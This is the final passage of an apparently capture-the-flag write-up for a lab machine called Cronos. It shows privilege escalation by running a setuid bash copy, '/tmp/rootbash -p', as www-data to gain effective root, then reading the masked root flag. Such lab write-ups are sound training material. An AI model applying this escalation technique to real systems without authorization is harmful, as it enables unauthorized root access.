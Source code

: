 Now we can spawn a shell as `root` by running `/tmp/rootbash -p`

```bash
www-data@cronos:/var/www/admin$ /tmp/rootbash -p
rootbash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

# root.txt

The root flag is in the home directory of `root`, as usual.

```bash
rootbash-4.3# cat /root/root.txt
1703XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !